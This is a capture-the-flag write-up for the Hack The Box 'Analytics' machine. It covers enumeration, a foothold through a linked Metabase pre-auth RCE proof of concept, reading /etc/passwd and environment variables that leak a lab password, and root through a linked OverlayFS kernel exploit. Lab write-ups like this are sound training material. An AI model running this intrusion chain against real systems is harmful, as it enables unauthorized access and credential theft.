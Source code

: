 ```yaml
---
slug: /write-up/htb/machines/easy/analytics
pagination_next: null
pagination_prev: null
---
```


## Enumeration

```bash
nmap 10.10.11.233 -A -oA machines/analytics/enumeration/scans/all-ports -p- --min-rate 1000
```
Shows ports 22 and 80.

SSH version looks quite recent, let's focus on port 80:

```bash
http://analytical.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[demo@analytical.com,due@analytical.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.233], JQuery[3.0.0], Script, Title[Analytical], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

Checking the website, I see a `Login` section that redirects to another subdomain: `data.analytical.htb`. Let's add it to the /etc/hosts. It shows the login page of Metabase, let's try some default credentials.

The metabase version looks like it's v0.46.6.

## Foothold

Found a POC for this precise version: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

With the payload in the description and modifying it with our local IP,port we got foothold!

```bash
e4396eead2c0:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

However, we cannot see any relevant users:
```
e4396eead2c0:~$ cat /etc/passwd|grep "home"
cat /etc/passwd|grep "home"
metabase:x:2000:2000:Linux User,,,:/home/metabase:/bin/ash
```

In that `/home/metabase` folder there's nothing and we see it's using `/bin/ash`, there's a high chance this is running inside a docker container. We'll need to investigate how to bypass it.

Right now we have access to the docker container, but we cannot exit it. 

We can exfil the database which looks like a H2 instance.

We can check the environment variables:

```bash
5d711b9d670a:/metabase.db$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=5d711b9d670a
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_dsXXXX#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/
```

We tried to use the user/password in env var and boom, we got user access.

## Privilege escalation

Search OS version and kernel for CVEs:

```
uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

If we look in Google for `6.2.0-25-generic #25~22.04.2-Ubuntu CVE` you'll see this link: https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability and this link https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

Now it's just a matter of cloning the repo and run the exploit and you get `root` access directly and pwned!